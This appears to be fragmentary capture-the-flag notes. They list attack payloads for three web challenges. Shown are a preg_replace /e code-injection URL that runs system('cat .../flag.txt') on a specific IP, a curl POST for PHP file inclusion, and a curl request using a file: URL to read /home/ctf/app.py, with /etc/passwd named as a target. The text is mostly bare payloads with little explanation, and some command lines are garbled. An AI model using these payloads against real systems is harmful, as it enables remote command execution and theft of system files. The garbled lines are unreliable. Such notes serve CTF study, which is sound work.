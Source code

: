 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion


File:/etc/passwd      File:/home/ctf/app.py
curl -X POST \
-H 'Host: company.tld' \
--data 'url=file:/home/ctf/app.py' \
http://34.141.113.155:32567/

                                                   LFI  Ultra-Crawler
